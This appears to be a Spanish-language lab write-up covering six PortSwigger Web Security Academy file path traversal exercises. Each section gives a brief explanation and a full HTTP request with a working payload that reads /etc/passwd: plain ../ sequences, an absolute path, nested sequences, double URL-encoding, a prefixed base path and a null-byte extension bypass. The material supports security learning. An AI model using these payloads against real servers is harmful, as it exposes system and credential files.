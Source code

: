 # File path traversal, simple case

Para este laboratorio es el caso mas simple se ponen los puntos denotando un directorio atras en donde la web cargue un archivo y te muestra el 
/etc/passwd

```
GET /image?filename=../../../../../../etc/passwd HTTP/1.1
Host: 0a8200be041b466cc0f46aff00e000d3.web-security-academy.net
Cookie: session=wsnVR8iCU7MURckDcKT43ZatvLyTmC6e
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8200be041b466cc0f46aff00e000d3.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```

# File path traversal, traversal sequences blocked with absolute path bypass

Para este laboratorio los path absolutos estan bloqueados asi que intentamos poner el path directamente y funciona:

```
GET /image?filename=/etc/passwd HTTP/1.1
Host: 0a14004104e94cd0c06a7f3100620012.web-security-academy.net
Cookie: session=OPMimRA2dbPLCe0heGzelqwfgJ8s4CWx
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a14004104e94cd0c06a7f3100620012.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```
# File path traversal, traversal sequences stripped non-recursively

Para este laboratorio se tiene que poner 2 veces los caracteres tanto puntos como / 

```
GET /image?filename=....//....//....//etc/passwd HTTP/1.1
Host: 0ae3005404acb0eec0e63efc007c009f.web-security-academy.net
Cookie: session=kuMONCyHoP9LldWOdczOPBZjRcUTGjs8
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ae3005404acb0eec0e63efc007c009f.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close


```

# File path traversal, traversal sequences stripped with superfluous URL-decode

Lo que hay que recuperar de este laboratorio es que intenta defenderse del ataque con url decode entonces si nosotros url encodeamos 2 veces al momento que
lo decodea queda encodeado de la primera y como no ve el caracter que no le gusta y entiende el url encode lo deja pasar.

URL encode para /

%2f

De nuevo URl encode

%25%32%66


```
GET /image?filename=..%25%32%66..%25%32%66..%25%32%66..%25%32%66..%25%32%66etc%25%32%66passwd HTTP/1.1
Host: 0ab700cd047391d4c0072ea7003200dd.web-security-academy.net
Cookie: session=h6z4MtekU5ukDabbw2UqHakljBB2lBez
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ab700cd047391d4c0072ea7003200dd.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```

# File path traversal, validation of start of path

Este laboratorio valida si los archivos a cargar vienen desde una direccion entonces la direccion es /var/www/images/ intenta pensar todas las
posibilidades

```
GET /image?filename=/var/www/images/../../../../../etc/passwd HTTP/1.1
Host: 0aa5003f04ae37bcc02f142600be0079.web-security-academy.net
Cookie: session=sFK1eAfglsM0HebwxjRoyeZNy8cfnWGK
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0aa5003f04ae37bcc02f142600be0079.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```

# File path traversal, validation of file extension with null byte bypass

Para este laboratorio lo que se puede aprender es el uso del llamado "null byte"

> Null Byte Injection is an active exploitation technique used to bypass sanity checking filters in web infrastructure by adding URL-encoded null byte characters (i.e. %00, or 0x00 in hex) to the user-supplied data.

A mi manera de entender las cosas separa el nullbyte y si este laboratorio quiere imagenes .jpg o .png pues acepta el acrchivo anterior supongo
por  que lo hace mediante regex

```
GET /image?filename=../../../../etc/passwd%001.jpg HTTP/1.1
Host: 0a92007b04a52d1ac0615ba500a600f3.web-security-academy.net
Cookie: session=IBhmvbGCRBVmaRKQVbqeWahDexv5QNXr
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a92007b04a52d1ac0615ba500a600f3.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```
